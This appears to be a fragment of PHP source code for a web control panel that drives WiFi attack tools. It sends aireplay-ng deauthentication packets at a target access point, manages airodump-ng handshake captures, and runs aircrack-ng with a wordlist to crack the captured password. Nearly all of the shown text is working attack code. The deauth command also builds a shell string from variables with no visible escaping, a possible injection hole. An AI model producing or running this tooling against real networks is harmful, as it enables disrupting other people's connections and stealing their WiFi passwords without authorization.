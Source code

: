     // Start deauth in background
    echo "Sending deauthentication packets...\n";
    $deauth_cmd = "aireplay-ng --deauth 5 -a $bssid $interface > /dev/null 2>&1 &";
    echo "Executing: $deauth_cmd\n";
    execWithTimeout($deauth_cmd, 2);
    
    echo "Capture process started. The handshake will be saved to captures/$output-01.cap\n";
    echo "Wait at least 30 seconds for potential handshake capture.\n";
    echo "You must manually stop the capture when finished by clicking 'Stop Capture'.\n";
    exit;
}

// Handle stopping capture processes
if (isset($_POST['action']) && $_POST['action'] == 'stop_capture') {
    echo "Stopping all airodump-ng and aireplay-ng processes...\n";
    execWithTimeout("pkill airodump-ng");
    execWithTimeout("pkill aireplay-ng");
    
    echo "Capture stopped. Check the captures directory for .cap files.\n";
    
    // List captured files
    echo "Available capture files:\n";
    $files = glob("captures/*.cap");
    if (count($files) > 0) {
        foreach ($files as $file) {
            echo "- $file\n";
        }
    } else {
        echo "No capture files found.\n";
    }
    exit;
}

// Handle password cracking
if (isset($_POST['action']) && $_POST['action'] == 'crack') {
    $capfile = escapeshellarg($_POST['capfile']);
    $wordlist = escapeshellarg($_POST['wordlist']);
    
    echo "Starting password cracking...\n";
    echo "Using capture file: $capfile\n";
    echo "Using wordlist: $wordlist\n\n";
    
    $cmd = "aircrack-ng $capfile -w $wordlist";
    echo "Executing: $cmd\n\n";
    $result = execWithTimeout($cmd, 300); // Allow up to 5 minutes
    
    echo $result;
    exit;
}

// Handle turning off monitor mode
if (isset($_POST['action']) && $_POST['action'] == 'monitor_stop') {
    $interface = escapeshellarg($_POST['interface']);
    
    echo "Stopping all airodump and aireplay processes...\n";
    execWithTimeout("pkill airodump-ng");
    execWithTimeout("pkill aireplay-ng");
    